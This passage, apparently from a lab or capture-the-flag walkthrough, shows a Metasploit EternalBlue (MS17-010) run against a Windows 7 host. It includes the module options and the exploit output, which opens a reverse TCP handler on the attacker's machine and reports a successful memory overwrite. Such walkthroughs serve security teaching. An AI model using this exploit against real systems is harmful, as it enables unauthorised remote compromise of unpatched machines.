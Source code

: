~~~
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
~~~

Required option: `RHOST`

~~~
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.130.234
RHOST => 10.10.130.234
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.130.234    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
~~~

### #2.4

Run the exploit!

~~~
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.9.35.106:4444 
[*] 10.10.130.234:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.130.234:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.130.234:445     - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.130.234:445 - Connecting to target for exploitation.
[+] 10.10.130.234:445 - Connection established for exploitation.
[+] 10.10.130.234:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.130.234:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.130.234:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.130.234:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.130.234:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.130.234:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.130.234:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.130.234:445 - Sending all but last fragment of exploit packet
[*] 10.10.130.234:445 - Starting non-paged pool grooming
[+] 10.10.130.234:445 - Sending SMBv2 buffers
[+] 10.10.130.234:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.130.234:445 - Sending final SMBv2 buffers.
[*] 10.10.130.234:445 - Sending last fragment of exploit packet!
[*] 10.10.130.234:445 - Receiving response from exploit packet
[+] 10.10.130.234:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.130.234:445 - Sending egg to corrupted connection.
~~~